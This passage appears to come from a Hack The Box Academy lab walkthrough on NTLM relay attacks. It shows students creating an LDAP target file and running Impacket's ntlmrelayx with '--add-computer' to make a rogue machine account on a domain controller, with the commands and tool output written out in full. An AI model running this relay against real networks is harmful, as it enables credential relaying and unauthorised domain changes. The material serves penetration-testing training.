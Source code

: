 After students start `Responder`, they will have to establish a second SSH session to the spawned target. In the second SSH session, students will have to create a target file containing the `172.16.117.3` host.

Code: shell

```shell
echo "ldap://172.16.117.3" > target.txt
cat target.txt
```

```shell-session
htb-student@ubuntu:~$ echo "ldap://172.16.117.3" > target.txt
htb-student@ubuntu:~$ cat target.txt 
ldap://172.16.117.3
```

Once they have created the `target.txt` file containing the host, students will have to start `ntlmrelayx` as the `root` user or use `sudo`, with the `-tf` target file option and specifying the `target.txt` file, `-smb2support` option providing `SMBv2` support for hosts that are requiring it, `--no-da` option not attempting to add a Domain Admin, `--no-acl` option to disable ACL attacks, and the `--add-computer` option followed by a computer name of choice.

Code: shell

```shell
sudo ntlmrelayx.py -tf target.txt -smb2support --no-da --no-acl --add-computer "Academy-Student"
```

```shell-session
htb-student@ubuntu:~$ sudo ntlmrelayx.py -tf target.txt -smb2support --no-da --no-acl --add-computer "Academy-Student"
[sudo] password for htb-student: 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

After a while, students will notice that a relayed authentication created a fake computer on the domain controller named `Academy-Student$` with a randomly generated password.
